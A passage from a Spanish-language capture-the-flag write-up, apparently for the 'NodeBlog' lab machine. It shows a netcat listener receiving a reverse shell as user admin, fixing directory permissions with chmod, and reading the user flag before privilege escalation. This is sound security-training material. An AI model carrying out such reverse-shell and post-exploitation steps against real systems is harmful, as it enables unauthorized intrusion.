 Y si vemos el netcat:

```
nc -nvlp 1235
listening on [any] 1235 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.139] 54948
bash: cannot set terminal process group (863): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/admin/.bashrc: Permission denied
admin@nodeblog:/opt/blog$ whoami
whoami
admin
```
Entramos a la máquina como usuario admin.

Si intentamos entrar al directorio de admin nos dice lo siguiente:
```
admin@nodeblog:/home$ cd admin
cd admin
bash: cd: admin: Permission denied
admin@nodeblog:/home$ ls -la
ls -la
total 16
drwxr-xr-x 1 root  root   10 Dec 27  2021 .
drwxr-xr-x 1 root  root  180 Dec 27  2021 ..
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
```
No tenemos permisos de atravesar esa carpeta, sin embargo, somos el dueño asi que lo cambiaremos con `chmod`:
```
admin@nodeblog:/home$ chmod u+x admin
chmod u+x admin
admin@nodeblog:/home$ cd admin
cd admin
```
Dentro del directorio buscamos la flag:
```
admin@nodeblog:~$ cat user.txt
cat user.txt
14f76e48c30e6a58a819a1
```

¡Bien!, tenemos la flag de usuario.

Si intentamos entrar a root:
```
admin@nodeblog:~$ cd /root/
cd /root/
bash: cd: /root/: Permission denied
```
Asi que tendremos que escalar. 
